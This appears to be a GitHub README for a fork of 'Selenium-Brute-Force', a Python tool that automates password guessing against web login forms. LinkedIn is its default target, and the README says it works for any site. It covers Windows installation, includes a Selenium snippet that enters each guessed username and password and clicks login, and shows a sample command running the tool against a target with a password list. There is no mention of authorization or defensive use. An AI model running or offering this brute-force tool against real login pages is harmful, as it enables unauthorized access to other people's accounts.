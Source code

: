 This Fork is Updateed old code to Python v3 and Selenium 4+

Step by Step for Installation on Windows Servers 2022

- Install Chrome : https://www.google.com/chrome/
- Install Python3 : https://www.python.org/downloads/windows/
  ✅ Check the box: "Add Python to PATH"
- Install Selenium : pip install selenium
![image](https://github.com/user-attachments/assets/fc090a1f-c411-404e-b47e-213296b3cd58)
- Download and Replace chromedriver : 
https://googlechromelabs.github.io/chrome-for-testing/#stable
Example : [chromedriver](https://storage.googleapis.com/chrome-for-testing-public/134.0.6998.165/win64/chromedriver-win64.zip)
![image](https://github.com/user-attachments/assets/d89971cc-618d-49e1-8ffd-b1c394b231bb)

- Clone the GitHub Repo
- Check with command python selenium-brute.py -h

![image](https://github.com/user-attachments/assets/7c7713b0-4532-4c42-9822-b0c68950d639)

- Run command

![image](https://github.com/user-attachments/assets/d3c487a9-81d8-4df0-8957-4c3c0f0e52a9)


---------------------------------------------------------
# Selenium-Brute-Force
A simple python script for doing brute-force attack using selenium.

## Help
- The default script is useful for Linkedin, but it works for everything. For other platforms, it needs to extract username id, password id, and login button class using browser inspector.

![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/help.jpg)<br />

put them in code.
```python
username = driver.find_element_by_id("username")		
username.clear()
print("username: "+curuser)
username.send_keys(curuser)		
password = driver.find_element_by_id("password")
password.clear()
print("password: "+passw+"\n")
password.send_keys(passw)			
driver.find_element_by_class_name('login__form_action_container').click()
```
- check chromedriver version (87.0) with your chrome, if there is an incompatibility, use appropriate version here <br />
https://chromedriver.chromium.org/downloads
## Usage
To get a list of basic options and switches use:
```python
selenium-brute.py -h
```
sample:
```
selenium-brute.py -t https://target.com -u admin -p pass.txt
```
![](https://github.com/mohammadkamrani/Selenium-Brute-Force/blob/main/file/video.gif)


